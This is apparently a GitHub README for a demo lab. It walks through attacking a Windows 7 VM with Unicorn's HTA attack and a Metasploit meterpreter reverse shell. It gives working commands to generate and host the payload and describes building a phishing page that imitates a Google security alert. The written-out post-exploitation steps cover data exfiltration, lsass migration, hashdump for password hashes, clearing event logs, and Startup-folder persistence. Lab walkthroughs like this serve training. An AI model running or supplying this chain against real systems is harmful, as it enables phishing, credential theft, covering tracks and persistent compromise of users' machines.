 # Unicorn Demo 
I have built this as a way to demo attacking a Windows 7 machine using metasploit and Unicorn's HTA attack.
Todd Murray pdxgeek57@gmail.com

## Environment Details

Kali from https://www.kali.org/downloads/  
Unicorn from https://github.com/trustedsec/unicorn  
Windows 7 ISO en_windows_7_professional_with_sp1_x64_dvd_u_676939.iso from https://the-eye.eu/public/MSDN/Windows%207/  
I used VMware 11.5 on MacOS Catalina 10.15.2 but you can use other HyperVisors.  
## I would NOT reccomend AWS/Azure as they may interpret these activities as malicous and kill your environment/account
    Note that VMware versions lower than 11 have display issues with VM's on Catalina  

## Kali Setup

Download and Install the latest Kali Linux 64-Bit Image  
Run 'apt update' and then 'apt upgrade'. This will update Kali to the latest including metasploit which we will be using.  
Enable Postgresql and Apache2 to start at boot 'systemctl enable postgresql' and 'systemctl enable apache2'  
Start Postgresql and Apache2 "systemctl start postgresql' and 'systemctl start apache2'  
Start Metasploit "msfconsole' to initialize the db then 'exit' out  

## Windows 7 Setup
 
Install Windows in a trial, no key is needed unless you have a valid license  
During install I created an administrator account named "admin". IF you use somethign else you will need to make changes later on.  
If you are testing against an AV solution make sure its in "Detect Only" mode.  
Upgrade Internet Explorer to version 11 by downloading to your host system and then dragging the exe into your VM  
    Note that Windows 7 lacks the appropriate certificates to browse https sites without this update https://go.microsoft.com/fwlink/?LinkId=324629
Disable UAC. You can google this if your not sure how.  


## Setup Kali (All done in a Terminal window, if you are not root you may need to use sudo for some commands)

Switch to /opt 'cd /opt'  
Download Unicorn 'git clone https://github.com/trustedsec/unicorn.git'  
Run 'ifconfig' and note your IP  
Switch to /opt/unicorn 'cd /opt/unicorn'  
Review the README.md  
Run unicorn.py using your kali IP and hta method for revese_tcp payload 'python unicorn.py windows/meterpreter/reverse_tcp 172.16.105.131 4444 hta'  
This generates and hta_attack folder that you now copy to /var/www/html 'cp hta_attack /var/www/html'  
Switch to /var/www/html/hta_attack 'cd /var/www/html/hta_attack'  
Use your favorite editor to modify unicorn.rc 'vi unicorn.rc'  
Make sure AutoVerifySession, AutoSystemInfo, and AutoLoadStdapi are all set to true then save your changes    

This generates the payload and metasploit configuration into our apache instance.  
In my case the URL is http://172.16.105.131/hta_attack/  
What i did next was generated a security event warning to my Google email. I copied the email and changed the "Check Activity" URL to the URL above". I also went into my Google account to the Security settings page and saved this page. I then edited /var/www/html/hta_attack/index.html and inserted the google code below the existing code making a slight modification to tell users to run the Security Checker tool when prompted. It's not perfect but its good enough to demonstrate a phishing attempt. You could clean this all up to better replicate the FROM address on the email and ensure the page looks exactly like the Google page.


## Next is to setup what we will do once we click the email link and open Launncher.hta

Download this repo that contains my demo.rc script  
Go back to /opt 'cd /opt/' and clone this repo 'git clone https://github.com/wond696/unicorn-demo.git'  
Switch to /opt/unicorn-demo and review demo.rc 'cd /opt/unicorn-demo' and 'cat demo.rc'  
My script is based on being logged in as a user named "admin", you may have to make modifications if you use a different account. Also, ensure the quotes in the file remain quotes, some text editors try to change one to a reverse quote which breaks the process  
You can modify this however you want but I found that trying to run everything in the script dies after creating a shell and causes a keyboard buffering problem so I'm only do base collection in the script and uploading files.  

## Download JAWS 'cd /opt' and 'git clone https://github.com/411Hall/JAWS.git'  
Review the README.md 'cat /opt/JAWS/README.md'  
  
Start our metasploit listener 'msfconsole -r /var/www/html/hta_attack/unicorn.rc'  
Launch the attack by clicking the email link or browsing to http://172.16.105.131/hta_attack/ and run/open the file when prompted  
This will generate a reverse tcp onto port 4444, you should see the session start.  
Confirm the session 'sessions -i'  
Connect to the session number 'sessions -i 1'  
Run demo.rc at the meterpreter prompt 'run /opt/unicorn-demo/demo.rc'  
Run the following commands (You may have to hit enter after the powershell commands run)  
'shell'  
'powershell Set-ExecutionPolicy -ExecutionPolicy Unrestricted' Enables powershell script execution.  
'powershell ./jaws-enum.ps1 exfil.txt' On your Windows 7 VM watch the C:\Users\Admin folder, when its done exfil.txt should be a little over 100k in size.  
'exit'  
'download exfil.txt'  
'rm jaws-enum.ps1'  
'rm exfil.txt'  
'run post/windows/manage/migrate' This should migrate you to a new notepad.exe process.  
'ps' Review and find the pid for lsass.exe  
'migrate 592' Use the pid for lsass.exe If this works you are now under a SYSTEM process.  
'hashdump' This will give you hashes that you might be able to convert to plaintext in jacktheripper or https://crackstation.net/  
'clearev' Clears Windows Logs


If you have followed this precisly and made changes to IP and username where needed you should have gather a lot of system information, have a exfil.txt file in your current directory, Launcher.hta should now be persitent by being in the users Start Menu > Startup. Reboot your Windows 7 VM to test, it should reconnect after you login.
